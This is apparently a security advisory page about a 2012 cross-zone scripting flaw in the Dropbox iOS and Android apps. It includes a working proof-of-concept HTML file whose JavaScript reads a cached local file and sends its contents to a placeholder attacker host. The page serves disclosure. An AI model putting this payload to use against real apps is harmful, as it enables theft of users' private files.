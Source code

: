 ```yaml
---
layout: vuln
credit:
    - roi
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2012-10-18' 
alephid: ALEPH-2012001
date: '2012-10-18'
title: 'Dropbox for iOS & Android Cross-Zone Scripting'
severity: moderate
product:
    - Dropbox App for iOS 
    - Dropbox App for Android    
vulnerable: 
    - 1.4.6 (iOS)
    - 2.0.1 (Android)
references:
    - src: Paper
      url: http://blog.watchfire.com/files/dropboxadvisory.pdf
---
```

A significant feature of the Dropbox apps is allowing a user to view either his files or files shared with him.
The Dropbox apps achieve this by using an embedded browser (e.g by using the UIWebView class in iOS) to display the contents of these files. Amongst numerous file types, the Dropbox apps allow the user to view HTML files in a rendered format. To do this, the Dropbox apps use an embedded browser window to render the locally stored HTML file. The method with which the DropBox apps render an HTML file has two side effects:

1. JavaScript code contained in the HTML file is automatically executed.
2. The HTML content is loaded in a privileged “file” zone, as opposed to an unprivileged HTTP location. Execution of malicious JavaScript code allows an attacker to steal potentially valuable information from the DOM of the embedded browser, an attack dubbed “Cross-Application Scripting” (XAS). However, because the Dropbox apps load the HTML file from a privileged zone
this malicious JavaScript can also access the file system with the same permissions as the Dropbox apps.

## Proof-of-Concept

The following is a PoC illustrates a malicious HTML file that steals a secret file from the user’s Dropbox
account (iOS Version):
```html
<html>
<head>
    <title>Malicious HTML File!</title>
</head>
<body>
    <script>
        function readDropBoxFileiOS(fileName) {
            // Create a new XHR Object
            x = new XMLHttpRequest();
            // When file content is available, send it back
            x.onreadystatechange = function () {
                if (x.readyState == 4) {
                    x2 = new XMLHttpRequest();
                    x2.onreadystatechange = function () {};
                    // x.responseText contains the content of fileName
                    // which we’ll send back to ATTACK_SITE
                    x2.open("GET", "http://ATTACK_SITE/?file_content=" +
                    encodeURI(x.responseText));
                    x2.send();
                }
            }
            // Try to read the content of the specified file
            x.open("GET", fileName);
            x.send();
        };
        // Reads the a secret file from the user’s local cache
        readDropBoxFileiOS("file:///var/mobile/Applications/APP_UUID/
                            Library/Caches/Dropbox/Secrets/secret.txt");
    </script>
    <h1>This malicious file will now leak a secret file!</h1>
    </body>
</html>
```
